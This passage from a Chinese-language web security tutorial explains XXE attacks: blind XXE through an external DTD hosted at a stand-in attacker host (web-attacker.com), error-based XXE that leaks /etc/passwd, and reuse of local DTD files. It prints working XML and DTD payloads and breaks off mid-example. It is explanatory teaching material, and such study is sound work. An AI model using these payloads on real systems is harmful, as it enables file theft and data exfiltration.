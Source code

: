 然后，攻击者必须在他们控制的系统上托管恶意DTD，通常是将其加载到自己的Web服务器上。例如，攻击者可能通过以下URL为恶意DTD提供服务：http://web-attacker.com/malicious.dtd

最后，攻击者必须向易受攻击的应用程序提交以下XXE负载：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

这个XXE的payload声明了一个名为XXE的XML参数实体，然后在DTD中使用该实体。这将导致XML解析器从攻击者的服务器获取外部DTD，并对其进行内联解释。然后执行恶意DTD中定义的步骤，并将/etc/passwd文件传输到攻击者的服务器。

### Error Based XXE(外部实体)

这种情况出现于我们将使服务器加载一个恶意DTD，该DTD将在错误消息中显示文件的内容（只有可以看到错误消息时，这才有效）。

有时候可以使用恶意外部DTD触发包含/etc/passwd文件内容的XML解析错误消息，如下所示：

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

该DTD执行以下步骤：

- 定义一个名为file的XML参数实体，包含/etc/passwd文件的内容。
- 定义一个名为eval的XML参数实体，其中包含另一个称为error的XML参数的动态声明。将通过加载一个名称包含文件实体值的不存在的文件来获得错误实体内容。
- 使用eval实体，这将导致执行error实体。
- 通过执行error实体，以便通过尝试加载不存在的文件来带出目标文件的值，从而生成包含不存在文件的名称的错误消息，该文件是/etc/passwd文件的内容。

使用以下命令调用：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

将会看到web服务器响应的错误消息中文件的内容：

![img](XXE.assets/assets%2F-L_2uGJGU7AVNRcqRvEi%2F-M5MUTcJhMM63Gk3J-i9%2F-M5Mm49epOTNmGzXTZKv%2Fimage.png)

需要注意的是，外部DTD允许我们在第二个（eval）中包含一个实体，但在内部DTD中是禁止的。因此，通常如果不使用外部DTD，就无法触发Error Based XXE。

### Error Based (系统实体)

这种情况适用于是Blind SSRF，同时上述方式不生效时。

原理是利用XML语言规范中的漏洞触发包含敏感数据的错误消息。如果文档的DTD同时存在内部和外部DTD声明，那么内部DTD可以重新定义在外部DTD中声明的实体。当这种情况发生时，在另一个参数实体的定义中使用XML参数实体的限制将被放宽。

这意味着攻击者可以在内部DTD中使用error-based XXE技术，前提是他们使用的XML参数实体正在重新定义外部DTD中声明的实体。当然，如果带外连接被阻止，则无法从远程位置加载外部DTD。所以，它需要是应用程序服务器本地的外部DTD文件。本质上，该攻击就是操作存在于本地文件系统上的DTD文件，重新调整其用途，以触发包含敏感数据的解析错误的方式重新定义现有实体。

例如，假设服务器文件系统上的位置/usr/local/app/schema处有一个DTD文件。dtd，该dtd文件定义了一个名为custom_entity的实体。攻击者可以通过提交如下混合DTD来触发包含/etc/passwd文件内容的XML解析错误消息：
